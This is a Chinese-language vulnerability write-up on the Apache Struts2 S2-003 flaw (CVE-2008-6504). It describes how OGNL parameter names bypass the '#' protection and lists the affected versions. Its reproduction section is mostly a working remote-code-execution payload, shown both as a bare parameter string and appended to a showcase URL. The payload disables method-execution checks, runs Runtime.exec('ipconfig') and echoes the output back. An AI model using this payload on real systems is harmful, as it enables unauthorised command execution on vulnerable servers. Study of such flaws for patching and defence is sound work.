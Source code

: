 （CVE-2008-6504）S2-003
=======================

一、漏洞简介
------------

OGNL还提供了广泛的表达式评估功能（http://www.ognl.org/2.6.9/Documentation/html/LanguageGuide/expressionEvaluation.html）。该漏洞允许恶意用户绕过ParametersInterceptor内置的"＃"使用保护，从而能够操纵服务器端上下文对象。所以，例如，要将＃session.user设置为\'0wn3d\'，可以使用以下参数名称：（\'\\ u0023\'+\'session \'user \' \'）（未使用）= 0wn3d网址编码后会显示如下：（\'\\ u0023\'％20％2b％20\'session \'user \\ \'））（未使用）= 0wn3d

二、漏洞影响
------------

Struts 2.0.0 - Struts 2.0.11.2

三、复现过程
------------

其实S2-003是S2-005的前身，他的POC即为S-005的缩小版，因为S2-003之后官方偷偷修改安全配置，默认让SecurityMemberAccess(管理ognl权限的类)的allowStaticMethodAccess为false，这里简单把S2-005的POC去掉&(\'\\u0023\_memberAccess.allowStaticMethodAccess\\u003dtrue\')(bla)(bla)这句话

    ?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

### 测试网址：

    http://www.0-sec.org:8080/struts2-showcase-2.0.1/showcase.action

### 修改后网址：

    http://www.0-sec.org:8080/struts2-showcase-2.0.1/showcase.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

直接执行***ipconfig***命令
